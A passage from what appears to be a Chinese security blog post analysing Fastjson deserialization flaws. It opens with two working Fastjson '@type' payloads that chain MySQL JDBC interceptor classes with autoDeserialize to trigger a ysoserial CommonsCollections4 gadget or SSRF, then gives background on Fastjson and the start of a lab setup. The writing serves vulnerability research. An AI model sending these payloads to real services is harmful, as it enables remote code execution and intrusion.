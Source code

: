 ```csharp
              "connectionString":{
                     "url":"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc"
              }
       }
}

8.0.19(反序列化链)，8.0.19+(SSRF)
{
       "@type":"java.lang.AutoCloseable",
       "@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
       "proxy": {
              "@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
              "connectionUrl":{
                     "@type":"com.mysql.cj.conf.url.ReplicationConnectionUrl",
                     "masters":[{
                            "host":""
                     }],
                     "slaves":[],
                     "properties":{
                            "host":"127.0.0.1",
                            "user":"yso_CommonsCollections4_calc",
                            "dbname":"dbname",
                            "password":"pass",
                            "queryInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                            "autoDeserialize":"true"
                     }
              }
       }
}
```

---

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162458-mi98hl3.png)

> **以下为去年去年调试分析时的笔记，大量参考（拙劣模仿）了phith0n、kingx、mi1k7ea等师傅的文章，仅供参考。强烈建议阅读原文。文末有链接**
>

# 0x02 调试分析

    Fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。 fastjson在阿里巴巴大规模使用，在数万台服务器上部署，Fastjson在业界被广泛接受。在2012年被开源中国评选为最受欢迎的国产开源软件之一。出现安全问题影响范围很广。

采用一种“假定有序快速匹配”的算法，是号称Java中最快的json库

## 环境搭建

idea中新建maven项目，在pom.xml中添加以下代码即可
